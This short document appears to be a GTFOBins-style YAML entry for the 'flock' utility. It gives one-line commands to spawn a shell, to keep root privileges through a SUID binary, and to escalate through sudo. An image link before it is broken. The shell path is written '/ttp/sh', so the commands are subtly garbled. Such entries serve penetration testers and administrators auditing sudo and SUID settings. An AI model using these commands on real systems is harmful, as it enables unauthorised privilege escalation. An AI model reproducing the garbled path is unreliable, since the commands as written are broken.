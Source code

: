 ```yaml
---
functions:
  shell:
    - code: flock -u / /ttp/sh
  suid:
    - code: ./flock -u / /ttp/sh -p
  sudo:
    - code: sudo flock -u / /ttp/sh
---
```


